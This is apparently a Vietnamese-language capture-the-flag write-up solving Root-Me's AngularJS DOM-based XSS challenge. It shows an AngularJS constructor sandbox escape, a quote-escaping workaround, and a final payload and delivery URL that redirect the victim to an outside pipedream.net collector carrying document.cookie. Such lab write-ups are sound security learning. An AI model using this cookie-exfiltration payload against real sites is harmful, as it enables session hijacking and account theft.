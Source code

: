 # WRITE UP

**Challenge:** [**XSS DOM Based - Angular**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)

Thử submit giá vị vào input, ta xem được script mà website handle:

<img src="./media/image1.png" style="width:6.5in;height:3.46597in" alt="Graphical user interface, text, application Description automatically generated" />

Mất khá nhiều thời gian để tránh filter và hiểu code. Có vẻ không thể attack bằng cách “hiểu” code được. Đề bài có tên là **AngularJS,** tra cứu cheatsheet XSS Angular, ta có thể tìm được payload: **$on.constructor('alert(1)')()**

Để khiến JS thực thi command, ta chèn {{ }} để triển khai expression:

**{{$on.constructor('alert(1)')()}}**

Tuy vậy, lúc chèn payload, website trả về:

<img src="./media/image2.png" style="width:6.24127in;height:2.78056in" alt="A screenshot of a computer Description automatically generated" />

Thử thay **' "** thì đã chèn thành công script:

<img src="./media/image3.png" style="width:6.5in;height:1.06319in" alt="A screenshot of a computer Description automatically generated with medium confidence" />

Chỉnh sửa payload để thực thi DOM Based XSS attack. Ta sử dụng **\\"** để thoát chuỗi **"":**

Payload: **{{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"+document.cookie")()}}**

<img src="./media/image4.png" style="width:5.60752in;height:2.77081in" alt="Graphical user interface, text, application, email Description automatically generated" />

Payload đã chạy được. Giờ thì gửi payload đến admin qua Contact tab:

[*http://challenge01.root-me.org/web-client/ch35/?name={{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"%20document.cookie")()}}*](http://challenge01.root-me.org/web-client/ch35/?name=%7b%7b$on.constructor(%22document.location=\%22https://eol9dtzbk9673pb.m.pipedream.net?cookie=\%22%20document.cookie%22)()%7d%7d)

<img src="./media/image5.png" style="width:4.37015in;height:1.53329in" alt="Graphical user interface, text, application, website Description automatically generated" />

HTTP Request nhận về:

<img src="./media/image6.png" style="width:6.12427in;height:2.54327in" alt="Graphical user interface, text, application Description automatically generated" />

<img src="./media/image7.png" style="width:5.42995in;height:2.95398in" alt="A screenshot of a computer Description automatically generated" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
